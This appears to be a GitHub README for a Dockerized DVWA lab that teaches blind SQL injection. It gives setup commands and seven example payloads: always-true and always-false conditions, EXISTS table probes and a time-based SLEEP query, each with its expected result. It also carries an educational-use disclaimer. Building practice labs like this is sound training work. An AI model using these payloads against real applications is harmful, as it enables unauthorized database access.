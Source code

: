 ### Blind SQL Injection - Dockerized

This project provides a Dockerized environment to simulate and test **Blind SQL Injection** attacks in a secure and isolated setup. 
The goal is to help users understand the mechanics of this attack, how it differs from traditional SQL Injection, and how to experiment with it using practical examples.

---

### What is Blind SQL Injection?

#### Difference Between SQL Injection and Blind SQL Injection

**SQL Injection** allows attackers to directly view the results of their malicious queries, such as database errors or data displayed on the webpage. It is fast and straightforward since the output is immediately visible.

**Blind SQL Injection**, however, does not show direct results. Instead, attackers infer information by observing the application’s behavior (e.g., response times or changes in output). It is slower and more complex but can still extract sensitive data with persistence.

---

### Prerequisites

To run the Dockerized application, ensure the following are installed on your system:

- [Docker](https://www.docker.com/) (required to load and run the image)  
- [Git](https://git-scm.com/) (optional, for cloning the repository)  
- System with at least **2GB of free space** (the image size is ~801 MB).  

---

### Installation and Usage

Follow these steps to set up and run the application:

#### 1. Clone the Repository

If you haven't already, clone the repository from GitHub:
```bash
git clone https://github.com/ALAOUIa/Blind_SQL_Injection-App.git
```

```bash
cd Abdelaziz_Blind-SQL-Injection-Dockerized
```

#### 2. Load the Docker Image

Load the prebuilt Docker image from the `.tar` file:
```bash
docker load -i Abdelaziz_Blind-SQL-Injection-Dockerized.tar
```

#### 3. Run the Docker Container

Start the container with the following command:
```bash
docker run -p 8080:80 abdelaziz/dvwa-custom
```

#### 4. Access the Application

Open your browser and navigate to:
```
http://localhost:8080
```

#### 5. Test SQL Injection Attacks

Use the examples provided in the [Examples](#examples-of-blind-sql-injection-attacks) section to test Blind SQL Injection on the vulnerable endpoints.

---

### Examples of Blind SQL Injection Attacks

Here are some sample payloads to test on the vulnerable application:

##### 1. Bypass Authentication Using Always-True Condition

### Query:
```
1' OR '1'='1' -- 
```

##### Explanation:
This query leverages an always-true condition (`'1'='1'`) to bypass checks and fetch any available record in the database.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 2. Validating the Query with Always-True Condition

#####Query:
```
1' AND '1'='1' -- 
```

#####Explanation:
This query tests whether a condition that is always true (`'1'='1'`) correctly processes and confirms the result.

#####Expected Result:
```
User ID exists in the database.
```

---

##### 3. Testing for Always-False Condition

##### Query:
```
1' AND '1'='2' -- 
```

##### Explanation:
This query uses an always-false condition (`'1'='2'`) to validate that no result is returned when the condition fails.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 4. Fetching All Records Without Conditions

##### Query:
```
1' OR 1=1 -- 
```

##### Explanation:
This query bypasses any filter by using the logical condition `1=1`, which is always true.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 5. Testing the Presence of a Table (Example: `users`)

##### Query:
```
1' AND EXISTS(SELECT 1 FROM users) -- 
```

##### Explanation:
This query checks whether a table named `users` exists in the database by using the SQL `EXISTS` function.

##### Expected Result:
```
User ID exists in the database.
```

---

##### 6. Testing for Non-Existing Table or Condition

##### Query:
```
1' AND EXISTS(SELECT 1 FROM non_existing_table) -- 
```

##### Explanation:
This query attempts to check for a non-existing table (`non_existing_table`) and should fail, demonstrating the absence of the table.

##### Expected Result:
```
User ID is MISSING from the database.
```

---

##### 7. Delay-Based Blind SQL Injection

##### Query (If Supported):
```
1' AND IF(1=1, SLEEP(3), 0) -- 
```

##### Explanation:
This query introduces a delay (`SLEEP(3)`) when the condition (`1=1`) is true, making it useful for blind SQL injection.

##### Expected Behavior:
- The response is delayed by 3 seconds if the condition is true.
- No delay occurs if the condition is false.

---

##### Additional Notes
- **Comment Style**: Use `--` followed by a space or `#` to terminate the query properly.
- **Security Level**: Ensure that the DVWA security level is set to **Low** for these queries to work as expected.
- **Testing Responsibly**: Only test on applications you own or have explicit permission to test.

---


### Disclaimer

This project is intended **solely for educational purposes**. Do not attempt these attacks on live systems or without explicit authorization. Misuse of this knowledge is unethical and may be illegal.
